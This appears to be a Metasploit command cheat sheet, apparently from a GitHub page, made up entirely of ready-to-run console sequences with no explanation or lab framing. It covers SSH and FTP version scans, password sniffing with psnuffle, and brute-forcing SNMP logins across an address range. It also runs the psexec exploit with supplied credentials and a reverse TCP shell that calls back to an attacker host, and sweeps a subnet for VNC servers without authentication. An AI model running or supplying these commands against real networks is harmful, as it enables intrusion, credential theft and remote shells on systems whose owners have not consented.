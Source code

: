 SSH SERVICE Scan:

```text
msf > services -p 22 -c name,port,proto
msf > use auxiliary/scanner/ssh/ssh_version
msf  auxiliary(ssh_version) > set RHOSTS 172.16.194.163 172.16.194.172
msf  auxiliary(ssh_version) > run
```

FTP Service Scan:

```text
msf > services -p 21 -c name,proto
msf > use auxiliary/scanner/ftp/ftp_version
msf  auxiliary(ftp_version) > set RHOSTS 172.16.194.172
msf  auxiliary(ftp_version) > run
```

PASSWORD SNIFFING WITH METASPLOIT:

```text
msf > use auxiliary/sniffer/psnuffle
msf auxiliary(psnuffle) > run
```

SNMP Scan:

```text
msf >  search snmp
msf >  use auxiliary/scanner/snmp/snmp_login
msf auxiliary(snmp_login) >  show options
msf auxiliary(snmp_login) >  set RHOSTS 192.168.0.0-192.168.5.255
msf auxiliary(snmp_login) >  set THREADS 10
msf auxiliary(snmp_login) >  run
```

PSexec Exploit:

```text
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.100
msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.5
msf exploit(psexec) > set LPORT 4444
msf exploit(psexec) > set SMBUSER victim
msf exploit(psexec) > set SMBPASS s3cr3t
msf exploit(psexec) > exploit
```

VNC Exploit:

```text
msf auxiliary(vnc_none_auth) > use auxiliary/scanner/vnc/vnc_none_auth
msf auxiliary(vnc_none_auth) > show options
msf auxiliary(vnc_none_auth) > set RHOSTS 192.168.1.0/24
msf auxiliary(vnc_none_auth) > set THREADS 50
msf auxiliary(vnc_none_auth) > run
```
